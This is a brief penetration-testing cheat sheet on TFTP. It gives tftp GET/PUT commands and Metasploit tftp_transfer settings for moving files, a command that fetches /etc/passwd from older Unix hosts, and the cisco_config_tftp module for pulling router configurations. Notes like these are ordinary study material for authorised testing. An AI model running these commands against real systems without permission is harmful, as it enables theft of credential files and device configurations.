 # TFTP

## Enumeration
```bash
tftp [IP] PUT [local file location].[extension]
```
```bash
tftp [IP] GET [remote file location].[extension]
```

### Metasploit

##### tftp_transfer
```bash
use auxiliary/admin/tftp/tftp_transfer
set RHOSTS [IP]
set ACTION [DOWNLOAD | UPLOAD]
set REMOTE_FILE [e.g., config.txt]
set LOCAL_FILE [e.g., loot.txt]
run
```


---
---


## Exploitation
##### Older versions of Unix may allow GET on /etc/passwd.
```bash
tftp -i [IP] GET /etc/passwd
```

### Metasploit

##### tftp_transfer
```bash
use auxiliary/admin/tftp/tftp_transfer
set RHOSTS [IP]
set ACTION [DOWNLOAD | UPLOAD]
set REMOTE_FILE [e.g., config.txt]
set LOCAL_FILE [e.g., loot.txt]
run
```

##### cisco_config_tftp
```bash
use auxiliary/admin/cisco/cisco_config_tftp
set RHOSTS [IP]
run
```

